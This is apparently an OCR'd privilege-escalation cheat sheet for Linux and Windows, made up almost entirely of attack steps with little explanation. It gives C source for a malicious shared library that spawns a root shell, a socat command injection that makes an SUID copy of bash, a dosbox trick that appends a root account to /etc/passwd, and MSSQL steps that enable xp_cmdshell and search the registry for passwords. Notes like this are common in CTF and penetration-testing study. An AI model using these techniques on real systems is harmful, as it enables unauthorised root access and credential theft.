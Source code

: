 **PE only
1: ld.so**
a: Find the binary file which misses a library
b: **ldd binary_file** , find the missing library: **missed.so**
c: Check **file /etc/ld.so.conf** and **directory /etc/ld.so.conf.d**
d: Check the config file **vital.conf** in **/etc/ld.so.conf.d** and where it points to
e: Check the path **vital.conf** points to, if the library is missing, create a
malicious one
f: **strings binary_file** , find the **possible function** , create a **source code file
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
```
void vital()
{
setuid(0);
setgid(0);
system("/bin/bash");
}**
g: Compile source code to abc.so: **gcc exp.c -o missed.so -shared -Wall -
fPIC -w**
h: Execute the binary file

**2: Socket Command Injection**
a: **netstat -ano | grep socket.s**
b: **echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x
/tmp/bash;" | socat -UNIX-CLIENT:/tmp/socket.s**
c: / **tmp/bash -p**

**3: dosbox (SUID)**
a: Use **vncviewer** or **SSH** with **- X flag (X11Forwarding)** to log in target
machine
b: Execute **dosbox**
c: In dosbox GUI, **mount C /etc**
d: **C:**
e: **echo hack:$1$hack
$R78Vb02JSSxv5kQZvNiPU.:0:0:root:/root:/bin/bash >> passwd**
f: In shell, **su hack** with password **123123**






# Windows
**Foothold or PE
1: MSSQL xp_cmd**
a: **python mssqlclient.py -p 1435 sa:123123@10.10.10.10**
b: **sp_configure 'show advanced options', '1'**
c: **RECONFIGURE**
d: **sp_configure 'xp_cmdshell', '1'**
e: **RECONFIGURE**
f: **xp_cmdshell cd C:/Users && dir**
g: **xp_cmdshell reg query HKLM /f pass /t REG_SZ /s**

